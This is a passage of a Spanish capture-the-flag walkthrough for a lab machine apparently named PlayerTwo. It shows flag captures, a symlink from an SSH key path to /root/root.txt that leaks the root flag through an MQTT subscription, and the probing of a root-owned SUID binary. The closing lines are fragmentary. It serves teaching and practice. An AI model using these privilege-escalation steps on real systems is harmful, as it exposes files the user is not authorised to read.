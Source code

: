 Puedo ver la primera flag

```null
observer@playertwo:~$ cat user.txt 
80e82babc51209e9ca9b915b9ac38b51
```

# Escalada

Una forma unintencionada es crear un alias para que la ```id_rsa``` apunte a la flag ```root.txt```

```null
observer@playertwo:~/.ssh$ ln -s /root/root.txt id_rsa
observer@playertwo:~/.ssh$ ls -la
total 16
drwx------ 2 observer observer 4096 Jun 14 18:28 .
drwxr-xr-x 6 observer observer 4096 Sep 15  2022 ..
-rw-rw-r-- 1 observer observer  563 Jun 14 18:27 authorized_keys
lrwxrwxrwx 1 observer observer   14 Jun 14 18:28 id_rsa -> /root/root.txt
-rw-r--r-- 1 observer observer  398 Sep  7  2019 id_rsa.pub
```

Al volverme a conectar al ```mosquitto``` obtengo el valor

```null
proxychains mosquitto_sub -t '$SYS/#' -h 127.0.0.1 -p 1883

Retrieving the key from aws instance
Key retrieved..
b252a753de51b79212eccadbf10fe396
```

En el directorio ```/opt``` se encuentra un binario compilado SUID y cuyo propietario es ```root```

```null
observer@playertwo:/opt/Configuration_Utility$ ls -la
total 2164
drwxr-x--- 2 root observer    4096 Sep 15  2022 .
drwxr-xr-x 3 root root        4096 Sep 15  2022 ..
-rwxr-xr-x 1 root root      179032 Nov 15  2019 ld-2.29.so
-rwxr-xr-x 1 root root     2000480 Nov 15  2019 libc.so.6
-rwsr-xr-x 1 root root       22440 Dec 17  2019 Protobs
```

Si introduzco cualquier cosa devuelve un error

```null
observer@playertwo:/opt/Configuration_Utility$ ./Protobs 

[*] Protobs: Service booting up.
[*] Protobs: Fetching configs...



  ___         _       _       
 | _ \_ _ ___| |_ ___| |__ ___
 |  _/ '_/ _ \  _/ _ \ '_ (_-<
 |_| |_| \___/\__\___/_.__/__/
                              v1.0 Beta



protobs@player2:~$ test

[!] Invalid option. Enter '0' for available options.
```


 [ Game                ]: test
 [ Config Index    ]: test
  [ Game                ]: test
  [ Contrast            ]: 0
  [ Gamma               ]: 0
  [ Resolution X-Axis   ]: 0
  [ Resolution Y-Axis   ]: 0
  [ Controller          ]: 0
 [ Config Index    ]: test